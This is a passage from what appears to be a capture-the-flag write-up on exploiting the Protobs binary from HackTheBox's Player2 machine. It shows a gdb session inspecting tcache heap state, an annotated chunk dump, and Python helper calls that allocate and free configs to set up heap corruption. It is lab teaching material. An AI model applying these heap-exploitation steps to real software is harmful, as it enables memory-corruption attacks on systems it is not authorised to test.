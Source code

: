 

    root@kali# gdb -q -p $(pidof Protobs) -ex 'b *0x4013cd'
    Attaching to process 2574
    Reading symbols from /media/sf_CTFs/hackthebox/player2-10.10.10.170/binary/Protobs...
    (No debugging symbols found in /media/sf_CTFs/hackthebox/player2-10.10.10.170/binary/Protobs)
    Reading symbols from libc.so.6...
    Reading symbols from ld-2.29.so...
    ...[snip]...
    gdb-peda$ heapinfo
    (0x20)     fastbin[0]: 0x0
    (0x30)     fastbin[1]: 0x0
    (0x40)     fastbin[2]: 0x0
    (0x50)     fastbin[3]: 0x0
    (0x60)     fastbin[4]: 0x0
    (0x70)     fastbin[5]: 0x0
    (0x80)     fastbin[6]: 0x0
    (0x90)     fastbin[7]: 0x0
    (0xa0)     fastbin[8]: 0x0
    (0xb0)     fastbin[9]: 0x0
                      top: 0x23322b0 (size : 0x20d50) 
           last_remainder: 0x0 (size : 0x0) 
                unsortbin: 0x0
    (0x20)   tcache_entry[0]: 0x23322a0
    (0x40)   tcache_entry[2]: 0x2332260



I can look at the buffers on the heap:



    gdb-peda$ x/24xg 0x2332260 - 0x10
    0x2332250:      0x0000000000000000      0x0000000000000041  # chunk metadata
    0x2332260:      0x0000000000000000      0x0000000002332010  # null terminator for 0x40 list
    0x2332270:      0x0000000000000000      0x0000000200000001  # old data
    0x2332280:      0x0000000400000003      0x0000000000000018
    0x2332290:      0x00000000023322a0      0x0000000000000021  # ptr to desc, chunk metadata
    0x23322a0:      0x0000000000000000      0x0000000002332010  # null terminator for 0x20 list
    0x23322b0:      0x0000000000000000      0x0000000000020d51  # top of heap
    0x23322c0:      0x0000000000000000      0x0000000000000000
    0x23322d0:      0x0000000000000000      0x0000000000000000
    0x23322e0:      0x0000000000000000      0x0000000000000000
    0x23322f0:      0x0000000000000000      0x0000000000000000
    0x2332300:      0x0000000000000000      0x0000000000000000



The previous in use flag (low bit in the size word) for both of these is
set to active as expected, and both freed buffers have null words
written at the start of the data.

If I (starting clean) create two, and then delete them:



    (Pdb) new_config('0xdf', 0x18, '0xdf config')
    (Pdb) new_config('0xdf', 0x18, '0xdf config')
    (Pdb) del_config(1)
    (Pdb) del_config(0)
